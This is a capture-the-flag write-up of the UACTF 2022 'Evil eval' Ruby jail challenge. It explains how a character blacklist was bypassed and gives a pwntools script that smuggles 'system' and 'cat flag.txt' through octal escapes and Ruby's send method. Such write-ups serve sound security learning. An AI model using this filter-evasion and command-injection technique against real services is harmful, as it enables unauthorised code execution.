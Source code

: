```yaml
---
title:  "UACTF 2022 Evil Eval writeup"
layout: post
categories: media
---
```


# Intro
Hello again. 

This past weekend, me and my teammates at [zh3r0](https://ctftime.org/team/116018) competed in [UACTF 2022](https://ctftime.org/event/1709). The ctf was pretty good, and had a wide variety of challenges. One of these challenges was `Evil eval`. And oh boy was it evil.

## The challenge
This was in the pwn category. We are given a netcat command, and when we log in we are greeted by:

```
------------------------------------------
| UNCOMPLICATED COMMAND-LINE CALCULATOR! |
------------------------------------------

Example Usage:
(1 + 2) * 3
> (1 + 2) * 3 = 9
```

We can type equations - and also commands into the calculator as long as they are < 8 unique bytes long. I've tried some challenges like this before, so I was immediately thinking "it must be a pyjail challenge!". It was a jail challenge, so I was half right, but the assumption about python is something i wasted *HOURS* of my time on.

## Limitations
I previously mentioned that there can only be 8 unique chars per command/equation. There was another restriction I didn't mention:

```
asd
> asd = One or more of the following characters have been blocked: 'f', 'l', 'a', 'g', '.', 't', 'x', 't', and/or '`'
```

This limitation left me pretty stumped for the majority of the CTF, there are not functions (in python) that can be used to execute code that dont contain a blacklisted character (`eval`, `exec`). In addition to this it was possible to open a file as `open` doesnt trigger the blacklist, however it was impossible to read the file since `read` does.

So no progress was made here for quite a while.

# Revelations
On the last day of the CTF, my teammate [`_wh1t3r0se_`](https://ctftime.org/user/73367) made an interesting observation, the challenge was not python, but ruby.

This didnt click with me at first, as I dont know any ruby and was so far into the pyjail rabbit hole that I hadn't even taken the time to consider the chance that I wasnt seeing python. Indeed, if you look up any error message from the session, you would find it to be ruby.

This opened up some new possibilities for exploiting the jail.

## Exploitation

I had been googling `python pyjail execute string as function` when I found `eval` and `exec`. So it only made sense to do the same for ruby. 

I ended up finding [this](https://stackoverflow.com/questions/1407451/calling-a-method-from-a-string-with-the-methods-name-in-ruby) stack overflow post, and from that found the `send` method. Looking at the [documentation](https://ruby-doc.org/core-3.1.2/Object.html#method-i-send) we can see that the format is `send(method, args)`. This was perfect.

Heres my script:

```python

from pwn import *

context.log_level = "debug"


def convert_str_to_oct_list(string):
    return [oct(ord(x))[2:] for x in string]


def sendstr(str0, name):
    print(str0)
    for x in str0:
        p.sendlineafter("> ", name + f"+=\"\\{x}\"")
        print(p.recvline())

def main():
    global p
    str0 = convert_str_to_oct_list("system")
    str1 = convert_str_to_oct_list("cat flag.txt")
    p = remote("challenges.uactf.com.au", 30000)
    
    p.recvuntil(">")
    p.sendline("e=\"\"")
    sendstr(str0, "e")
    p.sendline("E=\"\"")
    sendstr(str1, "E")

    p.sendline("send(e,E)")
    p.interactive()
if __name__ == "__main__":
    main()
```

Theres one last thing to explain. We were able to get around the filters by first creating an empty string, and then adding the escaped octal representations of the characters into the string one at a time. Hexadecimal representations couldnt be used because of the `x` character, so this was the next logical step.

I also had some wierd issues with the variable names, but `e` and `E` worked fine. 

(Thanks to [finch](https://ctftime.org/user/78954) for cleaning up the string -> octal conversion).

# Closing remarks
This is without a doubt the shortest writeup I have ever made - maybe I won't ramble for as long from now on. Probably not.

When I lay out the pieces, this challenge seems easy - and it was easy, really. The main obstacle was the filter, and bypassing it via string conversions. However I added another hurdle when I went full tunnel vision down the `pyjail` rabbit hole.

Some (me included) would argue that this challenge isn't really pwn - however what this challenge and real pwn challenges have in common is that they become infinitely harder when you add more obstacles, especially when those obstacles are your own stubbornness.

If theres anything to take from this, its probably not to focus on any one thing too much, and make sure to challenge any assumptions you have, whether you do pwn, or whatever category this challenge fits in.

Cya.